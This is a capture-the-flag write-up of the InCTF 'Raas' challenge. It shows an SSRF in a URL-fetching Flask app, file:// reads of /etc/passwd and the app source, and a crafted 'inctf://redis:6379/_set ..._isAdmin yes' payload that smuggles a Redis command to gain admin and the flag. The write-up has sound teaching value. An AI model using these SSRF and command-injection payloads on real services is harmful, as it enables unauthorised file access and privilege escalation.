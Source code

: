 # Raas | InCTF
<p align="center">
  <img  src="Pasted image 20210814162044.png">
</p>

We can see at first a textbox let's try to enter something
It just gives `SOME ISSUE OCCURED`
<p align="center">
  <img  src="Pasted image 20210814162151.png">
</p>

Let's try a url :
I tried `http://www.google.com`

<p align="center">
  <img  src="Pasted image 20210814162254.png">
</p>

And it worked

So we are working with a `SSRF` here

It tried `http://localhost:6969`, .... but they didnt seem to work

Let's change it and try `file:///etc/passwd`

<p align="center">
  <img  src="Pasted image 20210814162528.png">
</p>

Worked !

In the docker file we see that there is a file named `app.py` lets read it with `file://./app.py` :

```py
from flask import Flask, request,render_template,request,make_response
import redis
import time
import os
from utils.random import Upper_Lower_string
from main import Requests_On_Steroids
app = Flask(__name__)

# Make a connection of the queue and redis
r = redis.Redis(host='redis', port=6379)
#r.mset({"Croatia": "Zagreb", "Bahamas": "Nassau"})
#print(r.get("Bahamas"))
@app.route("/",methods=['GET','POST'])
def index():
    if request.method == 'POST':
        url = str(request.form.get('url'))
        resp = Requests_On_Steroids(url)
        return resp
    else:   
        resp = make_response(render_template('index.html'))
        if not request.cookies.get('userID'):
            user=Upper_Lower_string(32)
            r.mset({str(user+"_isAdmin"):"false"})
            resp.set_cookie('userID', user)
        else:
            user=request.cookies.get('userID')
            flag=r.get(str(user+"_isAdmin"))
            if flag == b"yes":
                resp.set_cookie('flag',str(os.environ['FLAG']))
            else:
                resp.set_cookie('flag', "NAAAN")
        return resp

if __name__ == "__main__":
    app.run('0.0.0.0')
```

We can see that the app is using redis to check if the `cookie+"_isAdmin"` corresponds to `yes`.

I found 2 other interesting files `file://./main.py` `file://./modules/Gophers.py`

main.py
```py
import requests, re, io, socket
from urllib.parse import urlparse, unquote_plus
import os
from modules.Gophers import GopherAdapter 
from modules.files import LocalFileAdapter 


def Requests_On_Steroids(url):
    try:
        s = requests.Session()
        s.mount("inctf:", GopherAdapter())
        s.mount('file://', LocalFileAdapter())
        resp = s.get(url)
        assert resp.status_code == 200
        return(resp.text)
    except:
        return "SOME ISSUE OCCURED"
    

#resp = s.get("butts://127.0.0.1:6379/_get dees")
```

Gophers.py
```py
import requests, re, io, socket
from urllib.parse import urlparse, unquote_plus
import os



__ITEM_TYPE_IN_PATH = re.compile(r"(/[0-9+gITdhs])(/.+)")

deitemize = lambda x: __ITEM_TYPE_IN_PATH.sub(lambda m: m.groups()[1], x)
itemized = lambda x: __ITEM_TYPE_IN_PATH.match(x) is not None


class HoldsThings:
    """It's like a namedtuple, but you can't index by number and it's actually mutable."""

    def __init__(self, **kwargs):
        self.__dict__.update(kwargs)


def parse_url(url):
    res = urlparse(url)
    ret = HoldsThings(**res._asdict())
    if res.query:
        ret.path = res.path + "?" + res.query
    del ret.query
    if not ret.path:
        ret.path = "/"
    if "\t" in ret.path:
        ret.path, ret.query = ret.path.split("\t", 1)
    if itemized(ret.path):
        ret.path = deitemize(ret.path)
    return ret


class GopherAdapter(requests.adapters.BaseAdapter):
    def _netloc_to_tuple(self, netloc):
        host, sep, port = netloc.rpartition(":")
        if sep:  
            port = int(port)
        else:
            host = port
            port = 1010
        return (host, port)

    def _connect_and_read(self, parsed):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(self._netloc_to_tuple(parsed.netloc))
        msg = parsed.path.replace('/_','')
        if hasattr(parsed, "query"):
            msg += "\t" + parsed.query
        msg += "\r\n"
        print(bytes(msg, 'utf-8'))
        s.sendall(bytes(msg, 'utf-8'))
        f = s.makefile("rb")
        res = b""
        data = f.readline()
        print(data)
        f.close()
        return res

    def _build_response(self, request, res):
        resp = requests.Response()
        resp.status_code = 400 if (res.startswith(b"3")
                                   or b"\r\n3" in res) else 200
        resp.headers = requests.structures.CaseInsensitiveDict({})
        resp.encoding = "utf-8"
        resp.raw = io.BytesIO(res)
        resp.url = request.url
        resp.req = request
        resp.connection = self
        return resp

    def send(self, request, **kwargs):
        assert request.method == "GET", f"You can't {request.method.lower!r} a Gopher resource!"
        parsed = parse_url(unquote_plus(request.url))
        res = self._connect_and_read(parsed)
        return self._build_response(request, res)
```

We can communicaton with redis via Gopher with the attribute `inctf:`

We see that we can send the command to redis if we type it after `/_`

The host is : `redis`
And the port is : `6379`
as shown in app.py

The payload format will be :
`inctf://redis:6379/_[redis_command]`

So I used this payload to set the cookie :

`inctf://redis:6379/_set QsNqtzrgjfvjkbIhAMWusCxYzRkKCkJR_isAdmin yes`

I url-encoded it and used burp to send it and then accessed the webapp with the same cookie : 

<p align="center">
  <img  src="Pasted image 20210814163842.png">
</p>

And I got the flag~ `inctfi{IDK_WHY_I_EVEN_USED_REDIS_HERE!!!}`